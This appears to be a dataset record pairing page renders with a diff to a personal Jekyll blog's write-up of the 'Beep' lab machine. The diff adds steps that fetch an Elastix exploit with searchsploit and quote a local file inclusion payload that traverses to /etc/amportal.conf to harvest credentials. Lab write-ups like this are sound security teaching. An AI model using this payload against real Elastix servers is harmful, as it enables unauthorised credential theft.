

Before and after one commit to Liodeus/liodeus.github.io, a Jekyll site: the page built from _posts/2020-07-17-beep.md, in a window 1280 px wide and 1400 px high, scrolled down 2501 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Add files via upload

````diff
--- a/_posts/2020-07-17-beep.md
+++ b/_posts/2020-07-17-beep.md
@@ -109,15 +109,26 @@ The install version is 1.570 so there might be a RCE.
 
 ------
 
+Since there is more exploit found with Elastix, that is were I started. I didn't found the Elastix version so I tried the first one LFI.
 
+Download the code like so :
 
-
-
-```
+```bash
 searchsploit -m php/webapps/37637.pl
 ```
 
+Read the exploit and found the exploit part which is :
 
+```bash
+#LFI Exploit:
+/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action
+```
+
+Nothing difficult here, it's just a simple LFI, so let's try it in the browser !
+
+![LFI Elastix](/assets/imgs/beep/lfi_elastix.PNG)
+
+Bingo, it's working and we now have some credentials :
 
 ## Flags
 
````
Also changed, not shown: other parts of _posts/2020-07-17-beep.md (+1 -1 lines).
